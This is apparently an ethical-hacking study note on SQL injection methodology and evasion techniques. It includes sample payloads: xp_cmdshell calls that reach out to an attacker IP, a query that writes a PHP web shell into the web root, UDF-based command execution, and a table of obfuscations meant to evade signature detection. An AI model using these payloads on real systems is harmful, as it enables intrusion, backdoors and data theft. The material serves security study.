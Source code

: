 - Also known as **whitebox testing** or **white-box testing**.
- Analyzing application source code.
- **Static code analysis**
  - Detect on source code
- **Dynamic code analysis**
  - Analyze during execution of the code
- Tools include: • [Veracode](https://www.veracode.com/) • [RIPS](https://github.com/robocoder/rips-scanner) • [PVS Studio](https://www.viva64.com/en/pvs-studio/)

## SQL injection methodology

1. **Information gathering**
   - E.g. database structure, name, version, type..
   - Goal is to identify vulnerabilities for SQL injection.
   - Entry points in application tested to inject queries, e.g. invalidated input fields.
   - 💡 [Error messages](./sql-injection-types.md#error-based-sql-injection) can reveal information about the database type and version.
2. **SQL injection**
   - Attacks to extract information from database such as name, column names, and records.
   - Can also insert or update certain information in the database.
     - E.g. modifying password of an existing user or inserting himself as new user to gain access.
3. **Advanced SQL injection**
   - Goal is to compromise underlying OS and network
   - Techniques include
     - Interacting with file system
       - E.g. in MySQL: `LOAD_FILE()` to read and `OUTFILE()` to write
     - Collect network information
       - E.g. reverse DNS: `exec master..xp_cmdshell 'nslookup a.com MyIP'`
       - E.g. reverse pings: `'; exec master..xp_cmdshell 'ping 10.0.0.75' --`
     - Executing commands that call OS functions at runtime
       - E.g. in MySQL: `CREATE FUNCTION sys_exec RETURNS int SONAME 'libudffmwgj.dll'`
     - Creating [backdoor](../07-malware/malware-overview.md#backdoor) to use execute commands using a remote shell
       - E.g. `SELECT '<?php exec($_GET[''cmd'']); ?>' FROM usertable INTO dumpfile '/var/www/html/shell.php'`
     - Transfer database to attackers machine
       - E.g. by using [`OPENROWSET`](https://docs.microsoft.com/en-us/sql/t-sql/functions/openrowset-transact-sql)

## SQL evasion

- Obfuscating input strings to avoid signature-based detection systems
- Using [IP fragmentation](../03-scanning-networks/bypassing-ids-and-firewall.md#packet-fragmentation) with optionally trying different orders

### Obfuscation against signature detection

| Technique | Plain-text | Obfuscated text |
| --------- | ---------- | --------------- |
| In-line comment | `select * from users` | `s/**/ele/**/ct/**/*/**/from/**/users` |
| Char encoding | `e` | `char(101)` |
| String concatenation | `Hello` | `'Hel'+'lo'` |
| Obfuscated codes | `/?id==1+union+(select+1,2+from+test.users)` | `/?id=(1)union(((((((select(1),hex(hash)from(test.users))))))))` |
| Manipulating white spaces | `OR 1 = 1` | `'OR'1'='1'` |
| Hex encoding | `SELECT @@version = 31` | `SELECT @@version = 0x1F` |
| Sophisticated Matches | `OR 1 = 1` | `OR 'hi' = 'hi'` |
| URL Encoding | `select * from users` | `select%20%2A%20from%20users` |